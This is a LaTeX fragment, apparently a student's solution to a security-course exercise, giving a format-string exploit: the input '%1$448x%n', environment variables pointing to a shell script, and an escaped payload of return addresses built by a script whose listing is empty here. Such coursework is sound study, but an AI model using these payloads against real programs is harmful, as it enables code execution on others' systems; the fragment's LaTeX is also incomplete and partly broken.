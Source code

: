 \documentclass[a4paper,11pt]{article}
\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-1ex}\begin{framed}}%
{\end{framed}\par}
\begin{document}
\begin{itemize}
\begin{solution}
\begin{lstlisting}
	  \end{lstlisting}

	  And then using the string \t{"\%1\$448x\%n"} as runtime input, and \t{A="\%1\textbackslash\$448x\%n"} , \t{B="./somefile.sh"} as environment variables.

	  \vspace{2em}

	  The result of the python script is this (escaped) string:
	  \begin{lstlisting}
aaaaaaaaaaaaaaaaaaaa\xa0\x83\x04\x08\xfa\x86\x04\x08\xec\xff\xff\xbf\x68\xee\xff\xbf\xa0\x83\x04\x08\xfa\x86\x04\x08\x38\xa0\x04\x08\x84\xee\xff\xbf\xd0\x35\xec\xb7\xfa\x86\x04\x08\xdc\xff\xff\xbfaaaa\xfc\xa1\xe1\xb7\x8d\x83\x04\x08\xdc\xff\xff\xbf\xd0\x35\xec\xb7\xfa\x86\x04\x08\xdc\xff\xff\xbfaaaa\xd0\xd3\xe0\xb7
	  \end{lstlisting}
\end{solution}
  \fi
\end{itemize}

\begin{thebibliography}{---}
 Please cite your sources, Example Author, \url{http://www.example.org}
\end{thebibliography}
\end{document}
